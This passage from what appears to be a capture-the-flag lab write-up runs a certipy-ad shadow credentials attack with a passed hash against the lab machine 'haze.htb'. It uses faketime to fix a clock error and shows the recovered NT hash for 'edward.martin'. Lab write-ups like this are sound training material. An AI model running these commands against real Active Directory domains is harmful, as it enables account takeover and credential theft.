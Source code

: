 ```bash
certipy-ad shadow auto -username "Haze-IT-Backup$"@haze.htb -hashes 4de830d1d58c14e241aff55f82ecdba1 -account edward.martin
```

but we got this error.

![alt text](../assets/images/haze18.png)

Lets use faketime.

```bash
faketime "$(ntpdate -q haze.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -username "Haze-IT-Backup$"@haze.htb -hashes 4de830d1d58c14e241aff55f82ecdba1 -account edward.martin
[SNIP]
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

and now we got it.

![alt text](../assets/images/haze19.png)

